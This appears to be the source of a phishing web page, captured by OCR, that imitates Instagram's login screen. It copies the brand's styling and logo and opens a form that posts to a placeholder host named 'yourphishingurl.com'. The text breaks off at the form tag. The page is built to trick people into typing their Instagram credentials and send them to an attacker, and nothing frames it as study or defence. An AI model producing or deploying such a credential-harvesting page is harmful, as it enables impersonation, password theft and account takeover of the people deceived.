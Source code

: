 # index.htm1
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Instagram</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #fafafa;
            margin: 0;
            padding: 0;
        }
        .container {
            width: 300px;
            margin: 100px auto;
            background: #fff;
            padding: 20px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            border-radius: 5px;
        }
        .logo {
            text-align: center;
            margin-bottom: 20px;
        }
        .logo img {
            width: 100px;
        }
        .form-group {
            margin-bottom: 15px;
        }
        .form-group label {
            display: block;
            margin-bottom: 5px;
        }
        .form-group input {
            width: 100%;
            padding: 8px;
            box-sizing: border-box;
        }
        .btn {
            width: 100%;
            background: #0095f6;
            color: #fff;
            padding: 10px;
            border: none;
            border-radius: 5px;
            cursor: pointer;
        }
        .btn:hover {
            background: #0078d4;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="logo">
            <img src="https://www.instagram.com/static/images/web/mobile_nav_type_logo.png/735145cfe0a4.png" alt="Instagram Logo">
        </div>
        <form action="https://yourphishingurl.com" method="POST">